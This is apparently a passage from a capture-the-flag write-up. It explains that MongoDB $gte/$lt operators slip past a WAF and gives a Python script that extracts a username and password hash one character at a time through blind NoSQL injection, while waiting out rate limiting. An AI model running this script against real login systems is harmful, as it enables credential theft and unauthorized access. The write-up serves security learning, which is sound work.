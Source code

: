 Since `$gte` and `$lt` are not blocked by the WAF, we can use them to solve both fields directly since `aa <= /aa.*/ < ab`, where `/aa.*/` is any string that starts with `aa`.

```py
import requests as r
import time

username = ""
while True:
    has_more = False
    for i in range(32, 127):
        cur = chr(i)
        nxt = chr(i + 1)

        text = "429"
        while "429" in text:
            result = r.post(url, json={
                "username": {"$gte": username+cur, "$lt": username+nxt},
                "password_hash": {"$gt": ""}
            })
            text = result.text

            if "429" in text:
                time.sleep(1)
            else:
                break

        if "DO NOT CHEATING" in result.text:
            username += cur
            has_more = True
            break
        else:
            pass
    
    print("Username:", username)
    if not has_more:
        break

password = ""
while True:
    has_more = False
    for i in "1234567890abcdef":
        cur = i
        nxt = chr(ord(i) + 1)

        text = "429"
        while "429" in text:
            result = r.post(url, json={
                "password_hash": {"$gte": password+cur, "$lt": password+nxt},
                "username": {"$gt": ""}
            })
            text = result.text

            if "429" in text:
                time.sleep(1)
            else:
                break

        if "DO NOT CHEATING" in result.text:
            password += cur
            has_more = True
            break
        else:
            pass
```